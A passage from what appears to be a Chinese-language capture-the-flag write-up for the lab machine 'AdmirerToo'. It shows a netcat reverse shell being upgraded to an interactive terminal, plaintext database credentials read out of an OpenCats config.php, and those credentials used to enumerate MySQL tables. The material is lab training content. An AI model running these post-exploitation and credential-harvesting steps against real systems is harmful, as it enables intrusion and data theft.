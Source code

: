 在我们做任何事情之前升级 shell:

```
opentsdb@admirertoo:/$ which python
/bin/python
opentsdb@admirertoo:/$ python -c 'import pty;pty.spawn("/bin/bash")'
opentsdb@admirertoo:/$ ^Z    
zsh: suspended  nc -nlvp 4444
┌──(root💀kali)-[~]
└─# stty raw -echo; fg
opentsdb@admirertoo:/$ stty rows 51 cols 236
opentsdb@admirertoo:/$ export TERM=xterm
```

# OpenCats

环顾四周，我在/opt 文件夹中发现了一些有趣的东西:

```
opentsdb@admirertoo:~$ ls -l /opt
drwxr-xr-x  9 root hbase 4096 Jul  8  2021 hbase
drwxr-xr-x 23 root root  4096 Jul 21  2021 opencats
```

在那个文件夹中，自述文件将我们指向这里的文档。这似乎是一个免费的招聘系统，我在文件夹中找到了一个配置文件，其中包含数据库凭据:

```
opentsdb@admirertoo:/opt/opencats$ more config.php
<?php
/*
 * CATS
 * Configuration File
 *
<SNIP>
/* Database configuration. */
define('DATABASE_USER', 'cats');
define('DATABASE_PASS', 'adm1r3r0fc4ts');
define('DATABASE_HOST', 'localhost');
define('DATABASE_NAME', 'cats_dev');
```

# MySQL 枚举

我们可以找到数据库:

```
opentsdb@admirertoo:/opt/opencats$ find / -name cats_dev 2>/dev/null
/var/lib/mysql/cats_dev
```

有了凭证，我们可以枚举数据库和转储用户:

```
opentsdb@admirertoo:/opt/opencats$ mysql -u cats -padm1r3r0fc4ts -e 'show databases;'
+--------------------+
| Database           |
+--------------------+
| cats_dev           |
| information_schema |
+--------------------+opentsdb@admirertoo:/opt/opencats$ mysql -u cats -padm1r3r0fc4ts -e 'show tables from cats_dev;'
+--------------------------------------+
| Tables_in_cats_dev                   |
+--------------------------------------+
| access_level                         |
<SNIP>
| user                                 |
```